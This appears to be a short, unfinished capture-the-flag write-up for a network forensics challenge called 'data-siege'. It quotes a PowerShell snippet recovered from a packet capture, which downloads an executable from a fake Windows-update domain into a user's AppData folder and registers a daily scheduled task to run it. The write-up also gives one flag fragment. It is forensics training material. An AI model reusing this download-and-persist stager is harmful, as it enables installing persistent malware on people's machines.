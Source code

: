 # data-siege

"It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts."

## Solution

```sh
wireshark capture.pcap
```

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```


- 0r3d_1n_7h3_h34dqu4r73r5}

TODO:

